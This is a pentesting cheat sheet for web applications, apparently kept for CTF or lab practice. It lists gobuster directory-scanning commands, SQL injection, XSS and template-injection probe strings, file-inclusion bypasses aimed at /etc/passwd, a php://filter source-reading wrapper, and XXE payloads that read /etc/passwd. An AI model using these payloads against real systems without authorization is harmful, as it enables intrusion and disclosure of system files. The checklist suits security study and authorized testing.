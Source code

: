 # 2_webapps

## Manual scanning

- Check for `robots.txt` file.
- Check out the page's source code using dev tools.
- Software detection. Does the software have known vulnerabilities?
  - Software version (e.g. CMS)
  - Web server version (e.g. Apache 2.4.49)
- Software detection. Does this site / software have default credentials?
- Check for hostname. Are there email addresses that lead to clues?

## Automated scanning

- Run `gobuster` for finding directories on the web server.

```shell
gobuster dir --url http://$ip --wordlist=/usr/share/dirb/wordlists/common.txt | tee gobuster/common.txt
```

```shell
gobuster dir --url http://$ip --wordlist=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt | tee gobuster/medium.txt
```

```shell
gobuster dir --url http://$ip --wordlist=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,html,php | tee gobuster/extensions.txt
```

- Run `ffuf` for subdomain enumeration. 


## Injection attacks

- Check for SQL injection points using

```
' or 1=1--
```
```
' or 1=1 -- -
```

- Check for XSS (cross site scripting) vulnerabilities using

```
<h1>Hi</h1>
```
```
<script>alert('Hi');</script>
```

- Check for SSTI (server side template injection) using

```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```

See [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) for more information on server side template injection.

## File inclusion

- Check for file inclusions to the file `/etc/passwd`.
- Check for filter bypass
    - Use `.././..` instead of `../..`.
  - Use null bytes `%00` to bypass filters.
  - Use suffix `/etc/passwd/.` to bypass filters.
  - Use relative paths `dir/../../file/path` to bypass filters.
- Check for source code using

```
php://filter/convert.base64-encode/resource=post.php
```

- For nice file path targets see this [TryHackMe](https://tryhackme.com/room/fileinc) room.
- Go for remote file inclusions.

## XXE
Two payloads you can try are listed below.

```xml
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```
```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```
